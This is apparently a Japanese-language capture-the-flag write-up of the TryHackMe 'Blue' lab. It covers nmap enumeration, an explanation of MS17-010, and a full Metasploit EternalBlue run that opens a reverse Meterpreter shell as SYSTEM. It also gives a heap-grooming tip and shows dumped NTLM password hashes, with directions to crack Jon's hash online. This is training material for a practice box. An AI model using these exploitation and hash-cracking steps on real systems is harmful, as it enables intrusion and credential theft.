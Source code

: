 ![[Generic-Banner.svg]]

- URL : https://tryhackme.com/r/room/blue
- #easy 
- OS :  #Windows
- Machine Author(s): 
- Hack Date: 2025-01-02,20:15

---

# Enumeration
どのポートが空いている?
```bash
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 128 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 128
|_ssl-date: 2025-01-02T11:03:22+00:00; -1s from scanner time.
49152/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49159/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 02:83:7C:C9:21:C9 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h29m59s, deviation: 3h00m00s, median: -1s
| nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:83:7c:c9:21:c9 (unknown)
| Names:
|   JON-PC<00>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   JON-PC<20>           Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 83 7c c9 21 c9 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53248/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58458/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 11980/udp): CLEAN (Timeout)
|   Check 4 (port 57286/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-02T05:03:17-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-02T11:03:17
|_  start_date: 2025-01-02T10:58:51
```


nmapで脆弱性スキャン
ms17-010が見つかった。

ms17-010
- MSから始まる番号（例: MS17-010）は、**Microsoft Security Bulletinのセキュリティパッチの識別番号
- MS17-010
	- 意味
		- **MS**: Microsoft Security Bulletinの略
		- **17**: 公開年（2017年）
		- 10番目のセキュリティパッチ
	- 内容
		- 2017年に発生した**WannaCry**ランサムウェア攻撃で利用された「EternalBlue」エクスプロイトの脆弱性
		- 攻撃者が特別に細工されたメッセージをSMBv1サーバーに送信することで、リモートでコードを実行できる可能性があります。
		- MS17-010で修正された主な脆弱性には、以下が含まれます：
			- **CVE-2017-0143**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0144**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0145**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0146**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0147**: Windows SMBの情報漏洩の脆弱性
			- **CVE-2017-0148**: Windows SMBのリモートコード実行の脆弱性



```bash
oot@ip-10-10-195-190:~/HTBScript# nmap --script=*vuln* 10.10.154.44
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-02 11:12 GMT
Nmap scan report for 10.10.154.44.htb (10.10.154.44)
Host is up (0.032s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
MAC Address: 02:83:7C:C9:21:C9 (Unknown)

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 91.73 seconds
```



---

# Foothold

meterplaterでEternalBlueの脆弱性を使ってexploitした。
EternalBlueは、「Groom Allocations」とは、メモリヒープ（heap）の管理を操作して、ターゲットシステムの脆弱性を悪用している。
具体的には、脆弱性を引き起こす条件を満たすように、ヒープメモリを意図的に配置・解放する。そのため、たまに上手くいかなくなることがある。
自分は、`set GroomAllocations 20`にしたら、上手く行った。
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
[*] Started reverse TCP handler on 10.10.195.190:4444 
[*] 10.10.154.44:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.154.44:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.154.44:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.154.44:445 - The target is vulnerable.
[*] 10.10.154.44:445 - Connecting to target for exploitation.
[+] 10.10.154.44:445 - Connection established for exploitation.
[+] 10.10.154.44:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.154.44:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.154.44:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.154.44:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.154.44:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.154.44:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.154.44:445 - Trying exploit with 20 Groom Allocations.
[*] 10.10.154.44:445 - Sending all but last fragment of exploit packet
[*] 10.10.154.44:445 - Starting non-paged pool grooming
[+] 10.10.154.44:445 - Sending SMBv2 buffers
[+] 10.10.154.44:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.154.44:445 - Sending final SMBv2 buffers.
[*] 10.10.154.44:445 - Sending last fragment of exploit packet!
[*] 10.10.154.44:445 - Receiving response from exploit packet
[+] 10.10.154.44:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.154.44:445 - Sending egg to corrupted connection.
[*] 10.10.154.44:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.10.154.44
[*] Meterpreter session 1 opened (10.10.195.190:4444 -> 10.10.154.44:49219) at 2025-01-02 11:40:53 +0000
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > bash
[-] Unknown command: bash. Run the help command for more details.
meterpreter > shell
Process 1112 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

---
## Notes
なんか、他のアカウントのパスワードも知りたいらしい。
Windowsのパスワードのハッシュの構成

`<ユーザー名>:<RID>:<LMハッシュ>:<NTLMハッシュ>:::`

- **ユーザー名**: Windowsアカウント名
- **RID**: 相対識別子（ユーザー固有ID）
- **LMハッシュ**: 古いLAN Managerハッシュ（未使用の場合は`aad3b435b51404eeaad3b435b51404ee`）
- **NTLMハッシュ**: NTLMv1またはv2ハッシュ（クラック対象）

jonのパスワードを知るためには、一番最後のffb43f0de35be4d9917ac0cc8ad57f8dの部分を
https://crackstation.net/
でクラックすればいい。
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

```

![[Pasted image 20250102210525.png]]


---
## Flags

- **User**: `<md5>`
- **Root**: `<md5>`
---
